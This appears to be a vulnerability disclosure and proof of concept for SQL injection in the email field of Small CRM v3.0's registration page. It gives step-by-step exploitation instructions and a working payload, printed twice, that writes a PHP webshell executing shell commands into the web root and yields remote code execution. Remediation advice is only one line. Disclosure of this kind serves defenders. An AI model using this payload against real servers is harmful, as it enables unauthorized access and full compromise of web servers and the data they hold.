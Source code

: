 # CVE-2024-xxxx
# Vulnerability Description

The Registration page on Small CRM v3.0 is vulnerable to SQL injection, allowing unauthorized remote code execution (RCE) via the Outfile functionality of MySQL. This vulnerability arises from inadequate input validation in the email input field, coupled with the absence of parameterized queries.

## Step by Step POC

1. Navigate to the registration page.
3. Fill out all the fields and intercept the request.
   - ![Intercepted Request](reg_req.png)
5. Send the intercepted request to the repeater.
7. Inject a SQL injection payload into the email field, observing the writing of a webshell into the filesystem for persistence mechanisms.
   - ```sql '+AND+1337=1337+union+all+select+"<?php+echo+shell_exec($_GET['cmd']);?>"INTO+OUTFILE+'C:\\xampp\\htdocs\\webshell.php'#```
   - ![Payload Execution](sqli_payload.png)
9. Modify the payload to access the webshell on the server and utilize it to gain complete access to the web server.
10. Access the URL associated with the generated file, triggering a Remote Code Exeuction.
    - ![RCE](rce.png)

### Payload for SQLI
```sql
'+AND+1337=1337+union+all+select+"<?php+echo+shell_exec($_GET['cmd']);?>"INTO+OUTFILE+'C:\\xampp\\htdocs\\webshell.php'#
```
## Impact

The described vulnerability and proof of concept (PoC) pose severe risks, including unauthorized access, remote code execution (RCE), system compromise.

## Remediation

Implement strict input validation, use parameterized queries, provide security training.

## Screenshots
![Affected Code](code.png)

